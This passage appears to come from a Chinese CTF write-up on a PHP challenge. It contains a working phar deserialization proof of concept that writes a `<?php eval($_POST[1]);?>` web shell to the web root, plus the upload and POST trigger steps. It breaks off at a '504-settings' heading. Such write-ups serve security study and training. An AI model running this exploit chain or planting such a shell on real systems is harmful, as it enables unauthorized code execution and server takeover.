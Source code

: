 可以变量覆盖，那么`$pre`和`$db_format`都可控



还是用`/render/db_class.php`的类

poc：

```php
<?php
class db{
    public $log;
    public function __construct(){
        $this->log=new dbLog();
    }
}

class dbLog{
    public $content='<?php eval($_POST[1]);?>';
    public $log='/var/www/html/a.php';
}

$a = new db();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

运行后将生成的文件后缀改成png，然后上传，拿路径



然后访问`/api/admin_db_backup.php`，利用phar协议触发反序列化

```
/api/admin_db_backup.php

POST:
pre=phar:///var/www/html/img/ed54ee58cd01e120e27939fe4a64fa92.png&db_format=
```

![](https://s2.loli.net/2022/03/09/EWbdevMBjhAnTqs.png)



然后访问咱们生成的马a.php



## 504-settings

登录
